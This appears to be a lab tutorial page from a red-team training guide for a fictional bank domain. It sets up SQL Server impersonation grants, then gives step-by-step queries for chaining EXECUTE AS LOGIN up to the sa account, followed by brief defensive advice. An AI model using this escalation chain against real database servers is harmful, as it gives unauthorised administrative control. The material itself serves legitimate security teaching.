 ```yaml
---
description: >-
  SQL Server has a special permission, named impersonate, this enables one user
  to operate with the permissions of another user as well as their own
  permissions.
---
```


# Impersonation

## Configuring

### Prerequisite

{% content-ref url="../initial-access/normal-domain-user-access.md" %}
[normal-domain-user-access.md](../initial-access/normal-domain-user-access.md)
{% endcontent-ref %}

### Configuring

1. Login to `WEB01` as the `Administrator` user with password `Welcome01!`.
2. Open "Microsoft SQL Server Management Studio"

![](<../../../../.gitbook/assets/image (34).png>)

3\. Login with the `Administrator` user using Windows Authentication.

![](<../../../../.gitbook/assets/image (7) (1).png>)

4\. Click “New Query” button and use the SQL query below to create two new users:

![](<../../../../.gitbook/assets/image (29) (1).png>)

```
CREATE LOGIN Developer WITH PASSWORD = 'MyPassword!';
CREATE LOGIN Developer_test WITH PASSWORD = 'MyPassword!';
```

![](<../../../../.gitbook/assets/image (50).png>)

5\. Rune the following Query to allow impersonation:

```
GRANT IMPERSONATE ON LOGIN::Developer to [AMSTERDAM\Richard];
GRANT IMPERSONATE ON LOGIN::Developer_test to [Developer];
GRANT IMPERSONATE ON LOGIN::sa to [Developer_test];
```

![](<../../../../.gitbook/assets/image (36).png>)

## Attacking

### How it works

SQL Server has a special permission, named impersonate, this enables one user to operate with the permissions of another user as well as their own permissions. For example: user A can impersonate user B which can impersonate user C which can impersonate sa. This can be used to escalate privileges.

### Tools

* [HeidiSQL](https://www.heidisql.com)

### Executing the attack

1. Login to `WS01` as Richard with the password `Sample123`.
2. Download and start heidiSQL.
3. Click on "New" on the left bottom and configure the following settings:

* Network Type: `Microsoft SQL Server (TCP/IP)`
* Library: `SQLOLEDB`
* Hostname / IP: `WEB01.amsterdam.bank.local`
* Select: "Use Windows Authentication"
* Port: `1433`

![](<../../../../.gitbook/assets/image (33).png>)

4\. Click "OK" on the security Issue warning.

5\. Click on the "Query" tab and enter the following Query to check which users can be impersonated by the current user:

```
-- Find users that can be impersonated
SELECT distinct b.name
FROM sys.server_permissions a
INNER JOIN sys.server_principals b
ON a.grantor_principal_id = b.principal_id
WHERE a.permission_name = 'IMPERSONATE'
```

We can impersonate the `Developer` user.

![](<../../../../.gitbook/assets/image (62).png>)

6\. Impersonate the `Developer` user with the following Query:

```
EXECUTE AS LOGIN = 'developer'
```

![](<../../../../.gitbook/assets/image (42) (1).png>)

{% hint style="info" %}
Make sure the Master database is selected since the developer user doesn't have access to the production database.
{% endhint %}

7\. Execute the who can be impersonated query again:

![](<../../../../.gitbook/assets/image (52).png>)

8\. Impersonate the user `sa`:

```
EXECUTE AS LOGIN = 'sa'
```

![](<../../../../.gitbook/assets/image (42).png>)

Hmm that doesn't work, lets impersonate `Developer_test`

8\. Impersonate `Developer_test`:

```
EXECUTE AS LOGIN = 'Developer_test'
```

9\. Execute the who can be impersonated query again:

![](<../../../../.gitbook/assets/image (7).png>)

10\. Impersonate `sa`:

```
EXECUTE AS LOGIN = 'sa'
```

Now no error:

![](<../../../../.gitbook/assets/image (43).png>)

We successfully impersonated `Developer` --> `Developer_test` --> `sa`.

## Defending

### Recommendations

* Use signed stored procedures that have been assigned access to external objects. This seems like the most secure option with the least amount of management overhead. Similar to the EXECUTE WITH option, this can result in escalation paths if the store procedure is vulnerable to SQL injection, or is simply written to allow users to take arbitrary actions. More information at [http://msdn.microsoft.com/en-us/library/bb283630.aspx](http://msdn.microsoft.com/en-us/library/bb283630.aspx).

### Detection



## References

{% embed url="https://www.netspi.com/blog/technical/network-penetration-testing/hacking-sql-server-stored-procedures-part-2-user-impersonation" %}
